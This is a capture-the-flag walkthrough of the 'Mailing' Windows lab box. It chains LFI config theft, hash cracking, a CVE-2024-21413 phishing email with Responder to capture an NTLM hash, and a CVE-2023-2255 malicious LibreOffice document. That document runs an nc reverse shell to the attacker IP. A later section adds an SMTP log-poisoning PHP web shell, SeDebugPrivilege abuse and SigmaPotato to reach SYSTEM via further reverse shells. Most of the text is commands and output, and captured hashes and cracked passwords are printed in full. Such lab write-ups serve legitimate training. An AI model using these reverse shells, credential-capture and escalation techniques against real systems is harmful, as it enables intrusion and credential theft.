

`Box: Windows`
`Level: Easy`

### Index
1. [`Box Info`](#`Box%20Info`)
2. [`Initial Nmap`](#`Initial%20Nmap`)
3. [`SMTP Enum`](#`SMTP%20Enum`)
	1. [`Undesired Output from smtp-user-enum`](#`Undesired%20Output%20from%20smtp-user-enum`)
4. [`Web Enumeratoin`](#`Web%20Enumeratoin`)
5. [`Elemenating SMB & RPC`](#`Elemenating%20SMB%20&%20RPC`)
6. [`Local File Inclusion - LFI`](#`Local%20File%20Inclusion%20-%20LFI`)
	1. [`CVE-2024-21413 - Microsoft Outlook RCE`](#`CVE-2024-21413%20-%20Microsoft%20Outlook%20RCE`)
7. [`Privilege Escalation`](#`Privilege%20Escalation`)
	1. [`WinPEAS Findings`](#`WinPEAS%20Findings`)
	2. [`CVE-2023-2255 - Remote documents loaded without prompt via IFrame`](#`CVE-2023-2255%20-%20Remote%20documents%20loaded%20without%20prompt%20via%20IFrame`)
	3. [`Checking LibreOffice Version (Libre Office)`](#`Checking%20LibreOffice%20Version%20(Libre%20Office)`)
	4. [`Creating exploit.odt on the Kali`](#`Creating%20exploit.odt%20on%20the%20Kali`)
8. [`Beyond Root`](#`Beyond%20Root`)
	1. [`SMTP Log Poisoning - Unsuccessful`](#`SMTP%20Log%20Poisoning%20-%20Unsuccessful`)
	2. [`Shell After Log Poisoning`](#`Shell%20After%20Log%20Poisoning`)
	3. [`GodPotato Exploit`](#`GodPotato%20Exploit`)
	4. [`Abusing SeDebugPrivilege Privilege`](#`Abusing%20SeDebugPrivilege%20Privilege`)
	5. [`Abusing SeImpersonatePrivilege Privileges`](#`Abusing%20SeImpersonatePrivilege%20Privileges`)

### `Box Info`
```
Mailing is an easy Windows machine that runs `hMailServer` and hosts a website vulnerable to `Path Traversal`. This vulnerability can be exploited to access the `hMailServer` configuration file, revealing the Administrator password hash. Cracking this hash provides the Administrator password for the email account. We leverage [CVE-2024-21413](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-21413) in the Windows Mail application on the remote host to capture the NTLM hash for user `maya`. We can then crack this hash to obtain the password and log in as user `maya` via WinRM. For privilege escalation, we exploit [CVE-2023-2255](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-2255) in `LibreOffice`.
```
### `Initial Nmap`
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn 10.10.11.14 
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Mailing
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: USER UIDL TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: IMAP4 CHILDREN ACL NAMESPACE CAPABILITY completed QUOTA RIGHTS=texkA0001 IDLE SORT OK IMAP4rev1
445/tcp   open  microsoft-ds?
465/tcp   open  ssl/smtp      hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|_ssl-date: TLS randomness does not represent time
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
993/tcp   open  ssl/imap      hMailServer imapd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
| Not valid before: 2024-02-27T18:24:10
|_Not valid after:  2029-10-06T18:24:10
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: IMAP4 CHILDREN ACL NAMESPACE CAPABILITY completed QUOTA RIGHTS=texkA0001 IDLE SORT OK IMAP4rev1
5040/tcp  open  unknown
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp  open  pando-pub?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
56192/tcp open  msrpc         Microsoft Windows RPC
```

### `SMTP Enum`
```
$ sudo nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.10.11.14
PORT   STATE SERVICE
25/tcp open  smtp
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
| smtp-enum-users: 
|_  Couldn't perform user enumeration, authentication needed
| smtp-vuln-cve2010-4344: 
|_  The SMTP server is not Exim: NOT VULNERABLE
```

###### `Undesired Output from smtp-user-enum`
```
$ sudo smtp-user-enum -M VRFY -u maya -t 10.10.11.14 -v
######## Scan started at Sun Oct 20 23:22:28 2024 #########
10.10.11.14: maya <no such user>
######## Scan completed at Sun Oct 20 23:22:28 2024 #########
0 results.

$ sudo smtp-user-enum -M RCPT -u maya -t 10.10.11.14 -v
######## Scan started at Sun Oct 20 23:22:57 2024 #########
10.10.11.14: maya <no such user>
######## Scan completed at Sun Oct 20 23:22:57 2024 #########
0 results

$ sudo smtp-user-enum -M VRFY -D mailing.htb -u maya -t 10.10.11.14 -v
######## Scan started at Sun Oct 20 23:23:22 2024 #########
10.10.11.14: maya@mailing.htb <no such user>
######## Scan completed at Sun Oct 20 23:23:22 2024 #########
0 results.

$ sudo smtp-user-enum -M RCPT -D mailing.htb -u maya -t 10.10.11.14 -v
######## Scan started at Sun Oct 20 23:23:48 2024 #########
10.10.11.14: maya@mailing.htb exists
######## Scan completed at Sun Oct 20 23:23:48 2024 #########
1 results
```

We know that the `Maya@mailing.htb` might exist as that is one of the user listed on the `http://mailing.htb`. (Refer [`Web Enumeratoin`](#`Web%20Enumeratoin`) Section). But look at the last results where it says `1 results` and user maya found. But in the same command, If I put something like `user_not_exist` than also it gives the same results.
```
$ sudo smtp-user-enum -M RCPT -D mailing.htb -u user_not_exist -t 10.10.11.14 -v
######## Scan started at Sun Oct 20 23:25:38 2024 #########
10.10.11.14: user_not_exist@mailing.htb exists
######## Scan completed at Sun Oct 20 23:25:38 2024 #########
1 results.
```

This was bit weird. On the Telnet Side, When I was trying to use `VRFY` method on port 25, I was getting a message that `VRFY disallowed`.
```
$ sudo telnet 10.10.11.14 25                                                    
Trying 10.10.11.14...
Connected to 10.10.11.14.
Escape character is '^]'.
220 mailing.htb ESMTP
HELO maya
250 Hello.
VRFY maya
502 VRFY disallowed.
RCPT to: MAYA
503 must have sender first.
MAIL FROM: Ruy@mailing.htb
250 OK
RCPT TO: maya@mailing.htb
530 SMTP authentication is required.
```

### `Web Enumeratoin`

So we have three user on the homepage. Ruy Alonso, Maya Bendito and Gregory Smith. We can also download The `instruction.pdf` from the homepage. I was able to extract the following items from the `instruction.pdf`


The client have downloaded the Thunderbird Setup Version 115.8.1

There's a user named `user@mailing.htb` who sent the first email to `maya@mailing.htb`.

### `Elemenating SMB & RPC`
```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Mailing.htb]
└─# smbclient -L //10.10.11.14                                                               
Password for [WORKGROUP\root]:
session setup failed: NT_STATUS_ACCESS_DENIED

┌──(root㉿kali)-[/home/ringbuffer/Downloads/Mailing.htb]
└─# netexec smb 10.10.11.14 -u 'Guest' -p '' --shares
SMB         10.10.11.14     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [-] MAILING\Guest: STATUS_LOGON_FAILURE 

# rpcclient -U "" 10.10.11.14  
Password for [WORKGROUP\]:
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```

### `Local File Inclusion - LFI`
So when Downloading the `Instruction.pdf`, The parameter is vulnerable to LFI.

The endpoint is `/download.php?file=instruction.pdf` and than replacing the Instruction.pdf with the LFI payload. I was able to pull out the hMailServer configuration file. If you don't know where the hMailServer stores the config file, RTFM. We got Two password hashes. The second hash `Password=` was not Crackable. 
```
──(root㉿kali)-[/home/ringbuffer/Downloads/Mailing.htb]
└─# hashcat -m 0 -a 0 841bb5acfa6779ae432fd7a4e6600ba7 /usr/share/wordlists/rockyou.txt --show
841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
```
The result of the first hash. 

###### `CVE-2024-21413 - Microsoft Outlook RCE`

Running the following exploit was painful and I had to reset the machine twice. Using the Exploit I found from GitHub for [CVE-2024-21413](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/), I was able to grab the shell for the user `maya`.

Starting Responder
```
# responder -I tun0
[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.3]
    Responder IPv6             [dead:beef:2::1001]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-UYY3R0F4CW2]
    Responder Domain Name      [4H5I.LOCAL]
    Responder DCE-RPC Port     [46033]

[+] Listening for events...
```

```
# python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender hola@mailing.htb --recipient maya@mailing.htb --url '\\10.10.14.3\share\sploit' --subject 'CHECK out this PoC and Get me NTLM'

CVE-2024-21413 | Microsoft Outlook Remote Code Execution Vulnerability PoC.
Alexander Hagenah / @xaitax / ah@primepage.de                                                                                                                           

✅ Email sent successfully.
```

```
[SMB] NTLMv2-SSP Client   : 10.10.11.14
[SMB] NTLMv2-SSP Username : MAILING\maya
[SMB] NTLMv2-SSP Hash     : maya::MAILING:737a613360904ff3:2E0BCD06E6E05CB6430A27B7E1B598E6:010100000000000080EA80F80B24DB01673E3382735F64AA0000000002000800340048003500490001001E00570049004E002D005500590059003300520030004600340043005700320004003400570049004E002D00550059005900330052003000460034004300570032002E0034004800350049002E004C004F00430041004C000300140034004800350049002E004C004F00430041004C000500140034004800350049002E004C004F00430041004C000700080080EA80F80B24DB0106000400020000000800300030000000000000000000000000200000D52B98C9BD9E48A68E9EE1F5798634514E220BD4C8782354590E2F811C1FB6140A0010000000000000000000000000000000000009001E0063006900660073002F00310030002E00310030002E00310034002E0033000000000000000000                                                                                                                            
[*] Skipping previously captured hash for MAILING\maya
```

Copying the above line in to `maya.hash` and cracking the `NetNTLMv2` hash.
```
# hashcat -m 5600 -a 0 maya.hash /usr/share/wordlists/rockyou.txt --show
MAYA::MAILING:737a613360904ff3:2e0bcd06e6e05cb6430a27b7e1b598e6:010100000000000080ea80f80b24db01673e3382735f64aa0000000002000800340048003500490001001e00570049004e002d005500590059003300520030004600340043005700320004003400570049004e002d00550059005900330052003000460034004300570032002e0034004800350049002e004c004f00430041004c000300140034004800350049002e004c004f00430041004c000500140034004800350049002e004c004f00430041004c000700080080ea80f80b24db0106000400020000000800300030000000000000000000000000200000d52b98c9bd9e48a68e9ee1f5798634514e220bd4c8782354590e2f811c1fb6140a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0033000000000000000000:m4y4ngs4ri
```

Got the password for the user `Maya`

```
# evil-winrm -i 10.10.11.14 -u maya -p 'm4y4ngs4ri'
 
Evil-WinRM shell v3.5
 
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
 
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
 
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maya\Documents> cd Desktop
*Evil-WinRM* PS C:\Users\maya\Desktop> type user.txt
088279ef06*****************
```

Got your User Flag.

### `Privilege Escalation`

###### `WinPEAS Findings`
```
############## Checking write permissions in PATH folders (DLL Hijacking)
# Check for DLL Hijacking in PATH folders https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dll-hijacking
    C:\Windows\system32
    C:\Windows
    C:\Windows\System32\Wbem
    C:\Windows\System32\WindowsPowerShell\v1.0\
    C:\Windows\System32\OpenSSH\
    C:\Program Files\Git\cmd
    C:\Program Files\dotnet\
    (DLL Hijacking) C:\Users\maya\AppData\Local\Programs\Python\Python312: maya [AllAccess]
  
```

potential DLL Hijacking.

```
########## Autorun Applications
# Check if you can modify other users AutoRuns binaries (Note that is normal that you can modify HKCU registry and binaries indicated there) https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries  
    RegPath: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    RegPerms: maya [FullControl]
    Key: MicrosoftEdgeAutoLaunch_FC0B8A068CC89116448B5F4808DA820E
    Folder: C:\Program Files (x86)\Microsoft\Edge\Application
    File: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe --no-startup-window --win-session-start (Unquoted and Space detected) - C:\
```

```
########## Scheduled Applications --Non Microsoft--
# Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries                                                                                                                                                            
    (MAILING\maya) MailPython: python.exe C:\Users\maya\Documents\mail.py
    Permissions file: maya [AllAccess]
    Permissions folder(DLL Hijacking): maya [AllAccess]
    Trigger: At log on of MAILING\maya
```

```
########## Searching known files that can contain creds in home
#  https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
    C:\Users\maya\AppData\Local\Packages\Microsoft.SkypeApp_kzf8qxf38zg5c\LocalState\dtlscert.der
    C:\Users\maya\AppData\Local\Packages\Microsoft.SkypeApp_kzf8qxf38zg5c\LocalState\dtlskey.der
```

###### `Authenticated SMB Enum`
Using Maya's Credentials, I was trying to check if there are any Shares that is readable or writable.
```
# netexec smb 10.10.11.14 -u 'maya' -p 'm4y4ngs4ri' --shares
SMB         10.10.11.14     445    MAILING          [*] Windows 10 / Server 2019 Build 19041 x64 (name:MAILING) (domain:MAILING) (signing:False) (SMBv1:False)
SMB         10.10.11.14     445    MAILING          [+] MAILING\maya:m4y4ngs4ri 
SMB         10.10.11.14     445    MAILING          [*] Enumerated shares
SMB         10.10.11.14     445    MAILING          Share           Permissions     Remark
SMB         10.10.11.14     445    MAILING          -----           -----------     ------
SMB         10.10.11.14     445    MAILING          ADMIN$                          Admin remota
SMB         10.10.11.14     445    MAILING          C$                              Recurso predeterminado
SMB         10.10.11.14     445    MAILING          Important Documents READ            
SMB         10.10.11.14     445    MAILING          IPC$            READ            IPC remota
```

Let's get into `Important Documents`

###### `CVE-2023-2255 - Remote documents loaded without prompt via IFrame`

```
LibreOffice supports "Floating Frames", similar to a html IFrame. The frames display their linked document in a floating frame inside the host document.

In affected versions of LibreOffice these floating frames fetch and display their linked document without prompt on loading the host document. This was inconsistent with the behavior of other linked document content such as OLE objects, Writer linked sections or Calc WEBSERVICE formulas which warn the user that there are linked documents and prompts if they should be allowed to update.

In versions >= 7.4.7 (and >= 7.5.3) the existing "update link" manager has been expanded to additionally control the update of the content of IFrames, so such IFrames will not automatically refresh their content unless the user agrees via the prompts.
```

```
*Evil-WinRM* PS C:\Users\maya\Desktop> dir

    Directory: C:\Users\maya\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/28/2024   7:34 PM           2350 Microsoft Edge.lnk
-ar---        10/22/2024   5:42 AM             34 user.txt
```

We have `Microsoft Edge.lnk` on the desktop as well.

###### `Checking LibreOffice Version (Libre Office)`
```
*Evil-WinRM* PS C:\Program files\LibreOffice\program> type version.ini
[Version]
AllLanguages=en-US af am ar as ast be bg bn bn-IN bo br brx bs ca ca-valencia ckb cs cy da de dgo dsb dz el en-GB en-ZA eo es et eu fa fi fr fur fy ga gd gl gu gug he hsb hi hr hu id is it ja ka kab kk km kmr-Latn kn ko kok ks lb lo lt lv mai mk ml mn mni mr my nb ne nl nn nr nso oc om or pa-IN pl pt pt-BR ro ru rw sa-IN sat sd sr-Latn si sid sk sl sq sr ss st sv sw-TZ szl ta te tg th tn tr ts tt ug uk uz ve vec vi xh zh-CN zh-TW zu
buildid=43e5fcfbbadd18fccee5a6f42ddd533e40151bcf
ExtensionUpdateURL=https://updateexte.libreoffice.org/ExtensionUpdateService/check.Update
MsiProductVersion=7.4.0.1
ProductCode={A3C6520A-E485-47EE-98CC-32D6BB0529E4}
ReferenceOOoMajorMinor=4.1
```

It's 7.4.0.1.

###### `Creating exploit.odt on the Kali`
```
# python3 CVE-2023-2255.py --cmd 'cmd.exe /c C:\ProgramData\nc64.exe -e cmd.exe 10.10.14.3 4444' --output exploit.odt
File exploit.odt has been created !
```

Now Transferring `exploit.odt` and `nc64.exe` in `C:\ProgramData\`

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Mailing.htb/CVE-2023-2255]
└─# evil-winrm -i 10.10.11.14 -u maya -p 'm4y4ngs4ri'
*Evil-WinRM* PS C:\ProgramData> upload exploit.odt
 
Info: Uploading /home/ringbuffer/Downloads/Mailing.htb/CVE-2023-2255/exploit.odt to C:\ProgramData\exploit.odt
 
Data: 40732 bytes of 40732 bytes copied

Info: Upload successful!
```

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Mailing.htb]
└─# evil-winrm -i 10.10.11.14 -u maya -p 'm4y4ngs4ri'
*Evil-WinRM* PS C:\ProgramData> upload nc64.exe
 
Info: Uploading /home/ringbuffer/Downloads/Mailing.htb/nc64.exe to C:\ProgramData\nc64.exe
 
Data: 60360 bytes of 60360 bytes copied
 
Info: Upload successful!
```

I am sorry. i had to transfer both the things into `C:\Important documents\`. I was not getting a reverse shell when it was in `C:\ProgramData\`
```
*Evil-WinRM* PS C:\Important Documents> copy C:\programdata\exploit.odt .
*Evil-WinRM* PS C:\Important Documents> copy C:\programdata\nc64.exe .
```

Now on the NetCat Side,
```
$ sudo nc -lvnp 4444
[sudo] password for ringbuffer: 
listening on [any] 4444 ...
C:\Program Files\LibreOffice\program>whoami
whoami
mailing\localadmin

```
Get your Root flag.

### `Beyond Root`

###### `SMTP Log Poisoning - Unsuccessful`

So While solving this box, We know that there was LFI bug. I came across the Log directory. 
```
C:\Program Files (x86)\hMailServer\Logs>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9502-BA18

 Directory of C:\Program Files (x86)\hMailServer\Logs

2024-10-22  05:41 AM    <DIR>          .
2024-10-22  05:41 AM    <DIR>          ..
2024-02-27  09:53 PM            35,417 hmailserver_2024-02-27.log
2024-02-28  09:59 PM           841,080 hmailserver_2024-02-28.log
2024-02-29  05:26 PM           530,689 hmailserver_2024-02-29.log
2024-03-01  09:47 PM           188,905 hmailserver_2024-03-01.log
2024-03-03  06:27 PM           305,564 hmailserver_2024-03-03.log
2024-03-04  09:32 PM           262,067 hmailserver_2024-03-04.log
2024-03-05  05:47 PM           240,279 hmailserver_2024-03-05.log
2024-03-06  04:52 PM            73,361 hmailserver_2024-03-06.log
2024-03-09  06:24 PM           122,876 hmailserver_2024-03-09.log
2024-03-10  06:10 PM           172,549 hmailserver_2024-03-10.log
2024-03-11  07:49 PM           576,338 hmailserver_2024-03-11.log
2024-03-13  09:36 PM         1,211,147 hmailserver_2024-03-13.log
2024-03-14  05:52 PM           239,329 hmailserver_2024-03-14.log
2024-04-01  04:27 PM            39,106 hmailserver_2024-04-01.log
2024-04-05  11:51 PM         1,384,781 hmailserver_2024-04-05.log
2024-04-06  11:47 PM         3,155,692 hmailserver_2024-04-06.log
2024-04-07  10:41 PM           179,773 hmailserver_2024-04-07.log
2024-04-08  11:59 PM         2,506,677 hmailserver_2024-04-08.log
2024-04-09  07:09 PM         1,516,747 hmailserver_2024-04-09.log
2024-04-10  06:21 PM           317,775 hmailserver_2024-04-10.log
2024-04-11  11:59 PM         3,066,159 hmailserver_2024-04-11.log
2024-04-12  10:49 AM         2,286,839 hmailserver_2024-04-12.log
2024-04-29  07:22 PM           118,820 hmailserver_2024-04-29.log
2024-04-30  04:39 PM           204,442 hmailserver_2024-04-30.log
2024-05-08  04:06 PM           175,122 hmailserver_2024-05-08.log
2024-10-22  07:20 AM            51,360 hmailserver_2024-10-22.log
2024-10-22  05:42 AM             8,252 hmailserver_awstats.log
              27 File(s)     19,811,146 bytes
               2 Dir(s)   4,428,148,736 bytes free

C:\Program Files (x86)\hMailServer\Logs>
```

We can pull out these log file using our LFI bug that we have done previously.



Now I will connect to the host again with `telnet` and put a PHP in the `HELO` string.

```
# telnet 10.10.11.14 25
Trying 10.10.11.14...
Connected to 10.10.11.14.
Escape character is '^]'.
220 mailing.htb ESMTP
HELO <?php echo "ringbuffer log posion demo"; ?>
250 Hello.

```

Now let's pull out the log again in Burp


###### `Shell After Log Poisoning`
```
# telnet 10.10.11.14 25
Trying 10.10.11.14...
Connected to 10.10.11.14.
Escape character is '^]'.
220 mailing.htb ESMTP
HELO <?php system($_REQUEST['cmd']); ?>
250 Hello.
```

Look at the `HELO` string. Now we can use `curl` to execute the commands as follows


If this was a success than I would have get `whoami` command result in the log right before the `SENT: 250 Hello.` in the Red Box.

### `GodPotato Exploit`
So we got our root flag but if you look at the `whoami` result from the [`Creating exploit.odt on the Kali`](#`Creating%20exploit.odt%20on%20the%20Kali`) section than you'll see that we are still `localadmin` and not `NT Authority\SYSTEM`
```
C:\Program Files (x86)\hMailServer\Logs>whoami
whoami
mailing\localadmin
```

Let's get to the `NT Authority\SYSTEM`

```
C:\Program Files (x86)\hMailServer\Logs>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                         State   
========================================= =================================================================== ========
SeIncreaseQuotaPrivilege                  Ajustar las cuotas de la memoria para un proceso                    Disabled
SeSecurityPrivilege                       Administrar registro de seguridad y auditor�a                       Disabled
SeTakeOwnershipPrivilege                  Tomar posesi�n de archivos y otros objetos                          Disabled
SeLoadDriverPrivilege                     Cargar y descargar controladores de dispositivo                     Disabled
SeSystemProfilePrivilege                  Generar perfiles del rendimiento del sistema                        Disabled
SeSystemtimePrivilege                     Cambiar la hora del sistema                                         Disabled
SeProfileSingleProcessPrivilege           Generar perfiles de un solo proceso                                 Disabled
SeIncreaseBasePriorityPrivilege           Aumentar prioridad de programaci�n                                  Disabled
SeCreatePagefilePrivilege                 Crear un archivo de paginaci�n                                      Disabled
SeBackupPrivilege                         Hacer copias de seguridad de archivos y directorios                 Disabled
SeRestorePrivilege                        Restaurar archivos y directorios                                    Disabled
SeShutdownPrivilege                       Apagar el sistema                                                   Disabled
SeDebugPrivilege                          Depurar programas                                                   Enabled 
SeSystemEnvironmentPrivilege              Modificar valores de entorno firmware                               Disabled
SeChangeNotifyPrivilege                   Omitir comprobaci�n de recorrido                                    Enabled 
SeRemoteShutdownPrivilege                 Forzar cierre desde un sistema remoto                               Disabled
SeUndockPrivilege                         Quitar equipo de la estaci�n de acoplamiento                        Disabled
SeManageVolumePrivilege                   Realizar tareas de mantenimiento del volumen                        Disabled
SeImpersonatePrivilege                    Suplantar a un cliente tras la autenticaci�n                        Enabled 
SeCreateGlobalPrivilege                   Crear objetos globales                                              Enabled 
SeIncreaseWorkingSetPrivilege             Aumentar el espacio de trabajo de un proceso                        Disabled
SeTimeZonePrivilege                       Cambiar la zona horaria                                             Disabled
SeCreateSymbolicLinkPrivilege             Crear v�nculos simb�licos                                           Disabled
SeDelegateSessionUserImpersonatePrivilege Obt�n un token de suplantaci�n para otro usuario en la misma sesi�n Disabled
```

Only Pay Attention to what's `Enabled`.

###### `Abusing SeDebugPrivilege Privilege`

Get [psgetsys.ps1](https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1) from GitHub and upload it to `C:\ProgramData`
```
*Evil-WinRM* PS C:\ProgramData> upload psgetsys.ps1
 
Info: Uploading /home/ringbuffer/Downloads/Mailing.htb/psgetsys.ps1 to C:\ProgramData\psgetsys.ps1
 
Data: 7900 bytes of 7900 bytes copied
 
Info: Upload successful!
```

On the localadmin shell on Target, do `Get-Process winlogon` to grab the Process ID
```
C:\ProgramData>powershell.exe
powershell.exe
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\ProgramData> Import-Module .\psgetsys.ps1
Import-Module .\psgetsys.ps1
PS C:\ProgramData> Get-Process winlogon
Get-Process winlogon

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
    276      13     3120      14576       0.17    592   1 winlogon
```

Now let's start the Listener on Port 5555 in another terminal tab and using the Imported Powershell Module `psgetsys.ps1` get the reverse shell as `NT Authority\System`
```
PS C:\ProgramData> ImpersonateFromParentPid -ppid 592 -command 'c:\windows\system32\cmd.exe' -cmdargs '/c C:\ProgramData\nc64.exe 10.10.14.3 5555 -e cmd.exe'
ImpersonateFromParentPid -ppid 592 -command 'c:\windows\system32\cmd.exe' -cmdargs '/c C:\ProgramData\nc64.exe 10.10.14.3 5555 -e cmd.exe'
[+] Got Handle for ppid: 592
[+] Updated proc attribute list
[+] Starting c:\windows\system32\cmd.exe /c C:\ProgramData\nc64.exe 10.10.14.3 5555 -e cmd.exe...True - pid: 8036 - Last error: 122
```

On the NetCat Side
```
# nc -lvnp 5555                                                        
listening on [any] 5555 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.14] 58740
Microsoft Windows [Versi�n 10.0.19045.4355]
(c) Microsoft Corporation. Todos los derechos reservados.

C:\ProgramData>whoami
whoami
nt authority\system
```

###### `Abusing SeImpersonatePrivilege Privileges`

Get the [SigmaPotato.exe](https://github.com/tylerdotrar/SigmaPotato) from GitHub.
```
C:\ProgramData>.\SigmaPotato.exe --revshell 10.10.14.3 6666
.\SigmaPotato.exe --revshell 10.10.14.3 6666
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\Servicio de red
[+] Searching for System Token...
[+] PID: 908 | Token: 0x812 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1060
[+] Current Command Length: 10 characters
---
[+] Creating a simple PowerShell reverse shell...
[+] IP Address: 10.10.14.3 | Port: 6666
[+] Bootstrapping to an environment variable...
[+] Payload base64 encoded and set to local environment variable: '$env:SigmaBootstrap'
[+] Environment block inherited local environment variables.
[+] New Command to Execute: 'powershell -c (powershell -e $env:SigmaBootstrap)'
[+] Setting 'CREATE_UNICODE_ENVIRONMENT' process flag.
---
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 3152

[+] Process Output:
```

Starting NetCat Listener on Port 6666

```
$ sudo nc -lvnp 6666
[sudo] password for ringbuffer: 
